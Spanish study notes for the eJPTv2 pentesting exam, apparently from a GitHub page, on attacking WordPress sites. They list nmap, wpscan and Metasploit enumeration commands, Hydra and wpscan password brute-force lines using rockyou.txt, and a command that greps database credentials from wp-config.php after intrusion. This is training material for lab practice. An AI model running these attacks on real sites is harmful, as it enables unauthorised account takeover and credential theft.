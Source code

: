 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Wordpress

WordPress es un sistema de gestión de contenido (CMS) de código abierto, gratuito y muy popular que permite crear y gestionar sitios web. Se utiliza principalmente para construir blogs, sitios web corporativos, tiendas en línea, y mucho más. Su facilidad de uso y la gran cantidad de temas y plugins disponibles lo convierten en una herramienta versátil y accesible para usuarios con diferentes niveles de experiencia.

---

## 🕵️Identificación de la versión de WordPress y sus componentes

```bash
nmap -sV --script http-wordpress-enum <url> # Detección de la versión de WordPress y plugins.
nmap -sV --script "http-wordpress* and not http-wordpress-brute" <url> # Escaneo de vulnerabilidades en WordPress.
nmap -sV --script http-wordpress-users <url> # Enumeración de usuarios de WordPress.
nmap --script=http-wordpress-enum --script-args http-wordpress-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar el uso de WordPress.
nmap --script=http-vuln* -p 80,443 <url> # Detección de vulnerabilidades específicas en WordPress y sus plugins.
```

También podemos intentar enumerar plugins con la herramienta curl:

```bash
curl -s -X GET "http://192.168.100.50" | grep -oP 'plugins/\K.*' | sort -u
```

## Checklist de WordPress ✔️

Para comprobar si existe un panel de inicio de sesión:


- url/wp-admin/login.php
- url/wp-admin/wp-login.php
- url/wp-login.php

Otros directorios clave a revisar en cualquier sitio web:


- url/robots.txt
- url/sitemap.xml
- url/CHANGELOG.txt


Cuando hayamos logrado la intrusión: 

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

 Si al acceder al servicio web notamos que no carga correctamente, es posible que se esté utilizando Virtual Hosting. En este caso, deberemos añadir el dominio al que apunta realmente en nuestro archivo /etc/hosts. Para ello, agregamos la IP de la web junto con el dominio correspondiente, por ejemplo: 10.0.0.10 wordpress.htb.

---

## 🛠️ Escaneo básico de WordPress con Metasploit

```bash
use auxiliary/scanner/http/wordpress_version # Cargar el módulo.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🕵️ Enumeración de usuarios en WordPress

```bash
use auxiliary/scanner/http/wordpress_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔑 Ataque de fuerza bruta con Metasploit

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
exploit
```

## 🛠️ Otras herramientas para auditar WordPress

### WPScan

WPScan es una herramienta especializada en la enumeración y auditoría de sitios basados en WordPress. Permite detectar vulnerabilidades, usuarios, plugins y temas instalados.

Ejemplo de uso:

```bash
wpscan --url <url_wordpress> # Análisis básico de WordPress.
wpscan --url <url_wordpress> -e vp,u # Enumeración de plugins vulnerables y usuarios.
wpscan --url <url_wordpress> -e t # Enumeración de temas instalados.
```

💡 Una buena práctica durante la auditoría de WordPress es revisar el código fuente de la página. Allí podemos encontrar rutas como /uploads, analizar si hay directory listing, identificar temas, plugins y posibles filtraciones de información (information leakage), vhosts, entre otros.

💡 También es recomendable examinar publicaciones de blogs u otras secciones del sitio web en busca de nombres de usuario que puedan ser utilizados en ataques de fuerza bruta.

Si encontramos nombres de usuario potenciales, debemos almacenarlos en un archivo .txt para su posterior análisis o uso como wordlist.

## 🔑 Fuerza bruta en el panel de inicio de sesión de WordPress

```bash
wpscan --url <url/wp-login.php> -U <username> -P /usr/share/wordlists/rockyou.txt # Uso de diccionario de contraseñas.
wpscan --url <url/wp-login.php> --passwords <ruta_diccionario.txt> --usernames <ruta_usuarios.txt> # Ataque con múltiples usuarios.
```

Ataque de fuerza bruta con Hydra

```bash
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```


Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> -s 8080 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

---


<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>
